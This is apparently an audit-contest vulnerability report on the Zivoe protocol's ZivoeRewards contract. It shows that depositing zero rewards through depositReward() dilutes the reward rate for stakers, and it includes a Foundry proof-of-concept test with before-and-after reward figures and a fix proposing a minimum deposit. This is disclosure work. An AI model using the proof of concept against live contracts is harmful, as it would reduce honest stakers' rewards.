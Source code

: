 Sour Black Orca

high

# Attacker Can Reduce Reward Yield Using 0 Deposits

## Summary

An attacker can deposit 0 reward amount via the function `depositReward()` and dilute the rewards for other users .

## Vulnerability Detail

The function `depositRewards()` is used to transfer in rewards to the `ZivoeRewards` contract which would be distributed to the users/stakers.

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L241

You can see there is no minimum deposit criteria , therefore an attacker can just send in 0 amount as rewards , and it would be diluted due to the impact in reward rate .
To demonstrate lets look at the coded PoC:

Paste this test in the Test_ZivoeRewards.sol file , and make a change in that file , at L26 edit the amount to be 10000 ether i.e. `assert(god.try_push(address(DAO), address(ZVEClaimer), address(ZVE), 10000 ether, ""));` and run with -vvvvv

```solidity
function test_Deposit_Zero() public {

        uint256 deposit = 100 ether + 100 ether; // Minimum 100 DAI deposit.
        ZVEClaimer.forward(address(ZVE), 5000 ether, address(sue));

        
        assert(sue.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sue))));
        sue.try_stake(address(stZVE), 5 ether);
        depositReward_DAI(address(stZVE), deposit);

        

        hevm.warp(block.timestamp + 1 days);

        depositReward_DAI(address(stZVE), 0 ether);

        hevm.warp(block.timestamp + 1 days);


        sue.try_getRewards(address(stZVE));
        

    }
```

You will see in the logs that reward is `13111111111110969600`

Now comment out the line `depositReward_DAI(address(stZVE), 0 ether);` from the test and then run , we will get ->

`13333333333333248000`

You see reward amount is more i.e more when there were no 0 deposits , the impact can be more with higher values in the pool.


## Impact

The attacker succesfully diluted the rewards for the user making a 0 deposit and affecting the reward rate.

## Code Snippet

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L241

## Tool used

Manual Review , Foundry

## Recommendation

Introduce a min deposit amount such that after a deposit the reward rate is strictly equal or more than the previous.
